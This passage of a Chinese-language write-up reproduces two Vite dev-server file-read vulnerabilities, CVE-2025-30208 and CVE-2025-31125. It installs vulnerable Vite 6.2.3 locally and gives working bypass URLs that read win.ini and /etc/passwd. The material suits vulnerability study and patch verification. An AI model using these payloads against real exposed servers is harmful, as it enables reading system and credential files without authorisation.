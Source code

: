启动Vite  
```
npx vite
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshFZHwst3f66Z0kFWGt8XU1PhlNLsujBpaAvjIAQbIyPQfXRLmnz4XVqxpueXYzjIypib0ud5rW6gw/640?wx_fmt=png&from=appmsg "")  
  
**CVE-2025-31125环境**  
  
本地搭建存在漏洞的环境，以Vite 6.2.3为例  
```
npm install vite@6.2.3
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshFZHwst3f66Z0kFWGt8XU1iaLIFVmzKBib1ZfZTXCpnDVWrvXSxM5ZZvJJ5ibzMhjE9iczyzwEL7H0Ow/640?wx_fmt=png&from=appmsg "")  
  
启动Vite  
```
npx vite
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshFZHwst3f66Z0kFWGt8XU1nJnBHVTtXcxQyicibglmF43W5yzgXlfPwHW8S9FVh9YqyjZicdBqibfNiaw/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
#### CVE-2025-30208复现  
  
CVE-2025-30208 是利用正则表达式匹配的漏洞进行绕过  
  
正常访问路径提示403：The request url "C:/windows/win.ini" is outside of Vite serving allow list.  
```
http://localhost:5173/@fs/C://windows/win.ini
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshFZHwst3f66Z0kFWGt8XU1WYDyO3teyoKCoTZJoXJoWfuXqsR7nicL4ribTRrXUqNH8HYXBktTF6cA/640?wx_fmt=png&from=appmsg "")  
使用如下官方的Poc绕过Vite的访问控制读取到C://windows/win.ini  
文件  
```
http://localhost:5173/@fs/C://windows/win.ini?import&raw??
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshFZHwst3f66Z0kFWGt8XU1X1why1Nb6yQIbjMEwuvFl8CXa6IUvBIElnkwAQfMenNE6sX3Pb7jtA/640?wx_fmt=png&from=appmsg "")  
相应Linux下的Poc  
```
http://localhost:5173/@fs/etc/passwd?import&raw??
```  
#### CVE-2025-31125复现  
  
CVE-2025-31125是利用inline的规则配合.wsam进行绕过增加的正则检测  
  
使用官方的Poc绕过Vite的访问控制读取到C://windows/win.ini  
文件  
```
http://localhost:5173/@fs/C://windows/win.ini?import&inline=1.wasm?init
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshFZHwst3f66Z0kFWGt8XU1KkrZm8ILJicJgecxn2w5xChqJGh4sBmty1N7sQgyalRQEppVdbTW3QQ/640?wx_fmt=png&from=appmsg "")  
  